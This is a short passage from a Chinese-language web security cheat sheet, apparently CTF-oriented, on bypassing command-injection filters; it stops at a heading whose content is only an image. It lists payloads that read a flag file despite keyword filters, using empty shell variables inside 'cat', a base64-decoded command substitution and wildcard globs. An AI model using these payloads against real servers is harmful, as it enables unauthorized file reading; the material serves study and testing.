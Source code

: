 ps:所有shell未定义的变量均为空变量:

```
$*和$@,$x,${x},$ddd,$LOVE
```

```
ca${x}t fl*
ca${LOVE}t fl*
c${x}a${LOVE}t f${666}l*
```

**编码绕过**

```
`echo 'Y2F0Cg==' | base64 -d` flag.txt
```

**正则表达式绕过**

```
cat f*
cat ??a*
```

#### 2.绕过命令执行函数

**编码绕过**

![img](PictureFile/【Web】TOP漏洞.assets/v2-010549dea37a2f1827ccfe654fb04617_720w.webp)

**内敛执行绕过**
